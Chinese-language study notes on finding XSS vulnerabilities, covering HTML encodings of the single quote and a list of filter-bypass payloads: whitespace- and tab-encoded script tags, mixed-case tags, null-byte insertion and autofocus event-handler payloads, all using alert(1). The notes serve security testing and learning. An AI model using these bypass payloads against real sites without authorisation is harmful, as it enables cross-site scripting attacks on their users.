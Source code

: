在html编码中:

```
单引号：
- 命名编码：&apos;
- 十进制编码：&#39;
- 十六进制编码：&#x27;
```

> 这个可以用来闭合单引号吗？ 就算闭合了，它的使用场景到底又是什么？

## XSS漏洞挖掘总结

<img src="https://upload-images.jianshu.io/upload_images/8581772-27c983794cfb69d8.png?imageMogr2/auto-orient/strip" width=60%>

## 混淆和绕过

### 基本变形

最简单的XSS的payload

```html
<script>alert(1)</script>
```

如果测试的参数存在XSS，就会弹窗显示1

这个payload肯定会被过过滤，可以对payload进行简单修改，绕过默认的filter。

```html
<!--在script标签钟插入一个空格或者是tab-->
<script >alert(1)</script>
<script    >alert(1)</script>

<!--也可以对tab，换行，回车进行编码来绕过-->
<script&#9>alert(1)</script>
<script&#10>alert(1)</script>
<script&#13>alert(1)</script>

<!--对标签进行大小写-->
<ScRipT>alert(1)</sCriPt>

<!--插入null字节，在xss payload的任何地方插入null字节，有时候可以绕过filter-->
<%00script>alert(1)</script>
<script>al%00ert(1)</script>
```

### 事件属性

```html
<input autofocus onfocus=alert(1)> 
<input onblur=alert(1) autofocus><input autofocus> 
<body onscroll=alert(1)><br><br>...<br><input autofocus>
```
